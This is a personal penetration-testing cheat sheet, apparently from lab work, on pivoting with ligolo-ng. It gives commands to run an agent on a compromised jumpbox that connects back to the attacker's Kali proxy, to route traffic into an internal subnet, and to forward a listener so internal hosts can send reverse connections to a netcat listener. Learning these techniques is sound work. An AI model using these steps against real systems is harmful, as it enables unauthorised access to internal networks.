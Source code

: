 # Download
---
https://github.com/nicocha30/ligolo-ng/releases/tag/v0.8.1

# Setup on Kali
----
- **Create a tunnel interface to work with ligolo-ng** (needs to be done every time)
	- `sudo ip tuntap add user drasstrange mode tun ligolo`
	- `sudo ip link set ligolo up`
	- ![[Pasted image 20250509155200.png]]
- Run **Proxy on Kali**:
	- `./proxy -selfcert`

# Setup on Compromised Victim / Jumpbox (with Public IP)
---
![[Pasted image 20250510141118.png]]

- We are trying to access `192.168.1.0/24`Network which is accessible only **via internal network on jumpbox**:
	- ![[Pasted image 20250510141420.png]]
	- ![[Pasted image 20250510141441.png]]
- Copy the **ligolo-ng agent here and run**:
	- `./agent -connect <our_ip>:<port_to_connect_with> -ignore-cert`For ex:-
		- `./agent -connect 10.8.0.2:11601 -ignore-cert`
			- here, `10.8.0.2` is my VPN IP as the **`10.0.1.0/24` network is only accessible via VPN for me.**
		- ![[Pasted image 20250510141652.png]]
	- ![[Pasted image 20250510141709.png]]
- **Select the session** using: `session` and enter
	- ![[Pasted image 20250510141813.png]]
- **Add a networking route**:
	- `sudo ip route add <NETWORK_IP>/<SUBNET> dev ligolo`
		- `sudo ip route add 192.168.1.0/24 dev ligolo`
- **Start the tunnel in ligolo-ng terminal**:
	- `start`
	- ![[Pasted image 20250509164905.png]]
- All Done, **we can now access `192.168.1.5` machine directly:**
	- ![[Pasted image 20250510142016.png]]

# Reverse connection from Internal machines
---
- **Forward Network Traffic on port 30000 on jumpbox to port 10000 of Kali machine**
- `listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp`
	- `0.0.0.0:30000` -> Binding Address on jumpbox
	- `127.0.0.1:10000` -> Forwarded to our port 1000
- `nc -lnvp 10000` => On Kali
- We would try to **connect locally on port 30000 of jumpbox on our internal network machine as it would be forwarded to 10000 of Kali** 
	- ![[Pasted image 20250510142722.png]]
	- ![[Pasted image 20250510142737.png]]
	- ![[Pasted image 20250510142752.png]]